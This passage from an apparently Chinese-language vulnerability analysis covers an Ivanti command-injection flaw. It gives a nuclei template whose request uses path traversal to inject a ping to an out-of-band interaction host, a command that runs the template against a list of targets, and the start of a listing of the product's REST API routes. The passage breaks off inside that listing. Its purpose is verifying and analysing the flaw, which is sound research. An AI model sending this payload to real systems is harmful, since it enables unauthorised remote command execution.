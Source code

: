 # 0x03 漏洞验证和利用

这里使用 nuclei 进行验证，使用的模板如下：

```plain
id: poc
info:
  name: 直接发包命令注入
  author: xxx
  severity: high
  description: 直接发包命令注入，影响范围比较大
http:
- raw:
  - |
    GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
    Connection: close
    Accept-Encoding: gzip, deflate
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: interactsh_protocol
    words:
    - dns
    condition: or
```

```plain
nuclei.exe -t .\poc.yaml -p http://127.0.0.1:8088 -iserver a.com -itoken token11 -l .\targets.txt
```

# 0x04 漏洞分析

在 Ivanti 的公告中提到，在修复之后 Admin REST APIs 将会减少，因而就从此入手分析

在`restservice/api/init.py` 文件当中，找到 rest apis 的路由：

```plain
...
api.add_resource(
    Userrecordsynchronization,
    "/api/v1/system/user-record-synchronization",
    "/api/v1/system/user-record-synchronization/database/export",
    "/api/v1/system/user-record-synchronization/database/import",
    "/api/v1/system/user-record-synchronization/database/delete",
    "/api/v1/system/user-record-synchronization/database/retrieve-stats",
)
api.add_resource(
    WebProfile, "/api/v1/system/resource-profiles/web-profile/<path:applet_name>"
)
api.add_resource(
    ActiveSyncDevices,
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/allow-access",
    "/api/v1/system/status/active-sync-devices/<path:active_sync_session_id>/block-access",
    "/api/v1/system/status/active-sync-devices",
)
api.add_resource(
    AwsAzureTestConnection,
```